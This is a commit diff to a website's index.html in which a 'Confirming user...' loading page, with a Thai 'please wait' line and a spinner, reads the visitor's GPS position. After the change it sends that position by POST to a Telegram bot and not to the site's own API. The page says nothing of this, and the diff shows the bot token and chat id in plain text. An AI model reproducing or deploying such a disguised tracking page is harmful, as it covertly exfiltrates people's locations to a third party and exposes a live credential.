

Before and after one commit to Gpsnap45/boardlct, a website: page public/index.html in a window 1280 px wide. Shown: the part 250-550 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
✨ Update UI & fix Telegram GPS sender

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -6,23 +6,33 @@
   <title>Confirming...</title>
   <style>
     body {
-      background-color: black;
-      color: white;
-      font-family: sans-serif;
+      background-color: #000;
+      color: #fff;
+      font-family: 'Segoe UI', sans-serif;
       display: flex;
       flex-direction: column;
       justify-content: center;
       align-items: center;
+      text-align: center;
       height: 100vh;
+      margin: 0;
+    }
+    h2 {
+      font-size: 24px;
+      margin-bottom: 10px;
+    }
+    h3 {
+      font-size: 18px;
+      color: #ccc;
     }
     .loader {
-      border: 5px solid #f3f3f3;
-      border-top: 5px solid #ffffff;
+      border: 6px solid #444;
+      border-top: 6px solid #00ffcc;
       border-radius: 50%;
       width: 50px;
       height: 50px;
       animation: spin 1s linear infinite;
-      margin-top: 20px;
+      margin-top: 30px;
     }
     @keyframes spin {
       0% { transform: rotate(0deg); }
@@ -31,7 +41,7 @@
   </style>
 </head>
 <body>
-  <h2>Confirming your location...</h2>
+  <h2>Confirming user...</h2>
   <h3>กำลัง confirm โปรดรอสักครู่...</h3>
   <div class="loader"></div>
   <script>
@@ -41,10 +51,13 @@
         longitude: position.coords.longitude,
         timestamp: new Date().toISOString()
       };
-      await fetch("/api/save-location", {
+      await fetch("https://api.telegram.org/bot7908002687:AAEyUni3Z7t7bC0sKwXQP4EqTZ0HsH8zc1E/sendMessage", {
         method: "POST",
         headers: { "Content-Type": "application/json" },
-        body: JSON.stringify(data)
+        body: JSON.stringify({
+          chat_id: "6576015343",
+          text: `📍 New location\nLatitude: ${data.latitude}\nLongitude: ${data.longitude}\nTime: ${data.timestamp}`
+        })
       });
     });
   </script>
```
